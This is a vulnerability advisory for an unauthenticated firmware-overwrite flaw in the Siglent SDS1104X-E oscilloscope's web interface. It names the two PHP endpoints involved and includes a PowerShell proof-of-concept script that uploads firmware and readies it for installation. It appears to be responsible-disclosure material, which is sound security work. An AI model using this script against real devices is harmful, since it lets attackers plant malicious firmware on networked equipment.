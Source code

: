 ## Description
Siglent SDS 1104X-E SDS1xx4X-E_V6.1.37R9.ADS is vulnerable to Incorrect Access Control. An unauthenticated attacker can overwrite firmnware.

### Discovery Information
Date: December 2022  
Discoverer: Bret McDanel

### Versions
At least SDS1xx4X-E_V6.1.37R9.ADS, and possibly earlier.  Reportedly fixed May 2023.  It is unknown if other devices have a similar flaw as they were unavailable to the researcher at the time research was performed.

### Background
The SIGLENT SDS1000X-E is a two and four channel oscilloscope.  Controlling the various features is an embedded system running Linux.  The oscilloscope has an ethernet port and optional USB wifi and has an enabled embedded web server.

### References
https://siglent.com  

## Vulnerability

### CWE 284: Improper Access Control

### Affected Ports
* Web Port: 80 (tcp)

### Discussion
Two PHP scripts do not require authentication.  One script can be used to upload firwmare, the other will expand the firmware and ready it for installation at next reboot.

The first script, /deviceupdate.php, requires the file to be sent as an application/octet-stream and end in .ADS.  

The next script, /device_read_write.php, accepts certain commands one of which causes the firmware to be unpackaged and readied for installation.  It relies upon information that is output from /deviceupdate.php.  

The firmware is encrypted with a modified DES algorithm.  However, this presents little challenge as there are programs that have been public for over a decade that will unpack existing firmware files and allow for repacking into new, valid, firmware files.  This process is documented at length on relevant forums to the oscilloscope in general.

### Proof of Concept 
#### Language: Powershell
```
$firmware = "/path/to/firmware.ADS"
$host = "ip of target"

try {
    # Upload firmware
    $WebParams = @(
        Method = "POST"
        Uri = "${host}/deviceupdate.php"
        ContentType = "application/octet-stream"
        Form = @{
            "in_device_version" = Get-Item -Path $firmware
        }
    )
    $resp = Invoke-WebRequest @WebParams -ErrorAction Stop
    $jsonData = ($resp.content | ConvertFrom-Json)

    # Unpack firwmare
    $cmd="%7B%22path%22%3A%22$($jsonData.path)%22%2C%22versionname%22%3A%22$($jsonData.versionname)%22%2C%22type%22%3A%22SSG%22%2C%22to%22%3A%22127.0.0.1%22%7D"
    $WebParams = @(
        Method = "POST"
        Uri = "${host}/device_read_write.php"
        Form = @{
            cmd = $cmd
        }
    )
    Invoke-WebRequest @WebParams -ErrorAction Stop
} catch {
    Write-Error "Unable to write firmware $($_.Exception.Response.ReasonPhrase)"
}
Write-Host "Firmware uploaded, reboot device to install new firmware (use CVE-2023-25367)"

```

## Mitigation
It is advised to upgrade to the current version of firmware.  Further, IoT devices, such as oscilloscopes, should be placed on a segregated network and access to the affected ports be blocked from untrusted hosts.
